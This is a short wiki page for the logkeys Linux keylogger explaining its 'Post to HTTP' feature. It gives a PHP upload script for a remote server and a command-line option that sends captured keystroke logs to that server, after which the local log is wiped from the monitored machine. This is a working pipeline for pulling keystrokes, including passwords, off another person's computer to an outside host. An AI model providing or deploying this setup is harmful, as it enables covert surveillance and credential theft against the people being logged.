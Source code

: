 # Post to HTTP #
A sample implementation:
  1. Get some [PHP web hosting](http://www.google.com/search?q=free+web+hosting), get [domain name](http://GetFreeDomain-Site.co.cc/list).
  1. Upload the following PHP script, name it "upload.php"
```
<?php

if ($_SERVER['REQUEST_METHOD'] == 'POST') {
  
  $file = $_FILES['file'];
  
  if ($file['error'] === UPLOAD_ERR_OK) 
    move_uploaded_file($file['tmp_name'], 'new.log');
}

?>
```
  1. Run logkeys with `--post-http=http://your.doma.in/upload.php` and it will upload log to specified URL every once it reaches `--post-size` in size (default 500KB). Note, the script above will overwrite "new.log" file every time. Also note that once the log is successfully sent, it is wiped from the monitored computer.

<wiki:gadget up\_ad\_client="2900001379782823" up\_ad\_slot="3948022173" width="728" height="90" border="0" up\_keywords="logkeys,gnu,linux,keylogger,keyboard,serial,usb,software,open-source" url="http://goo.gl/R5bvK" />